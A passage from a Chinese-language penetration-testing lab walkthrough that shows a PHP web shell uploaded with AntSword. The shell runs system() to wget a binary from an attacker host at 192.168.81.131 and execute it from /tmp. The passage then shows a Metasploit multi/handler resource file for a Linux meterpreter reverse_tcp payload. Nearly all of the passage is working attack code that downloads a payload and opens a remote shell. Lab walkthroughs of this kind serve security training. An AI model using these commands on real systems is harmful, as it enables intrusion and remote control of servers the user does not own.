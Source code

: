 php文件,生成的php文件名为：**linux_shell.php**

通过蚁剑进行文件上传

```
<?php system("wget 192.168.81.131/linux_shell -O /tmp/xiao3;cd /tmp;chmod +x xiao3;./xiao3 &")?>
```

![image-20220318150348384](靶场练习.assets/image-20220318150348384.png)

创建**linux.rc**文件，并添加下列内容

```
vim linux.rc  #创建文件
```

添加的内容如下

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.81.131
set LPORT 4444
exploit
```

我的文件路径为 

```
/home/xxb1  #可以自己找到合适的路径进行文件建立
```

![image-20220318151533016](靶场练习.assets/image-20220318151533016-164994186364467.png)
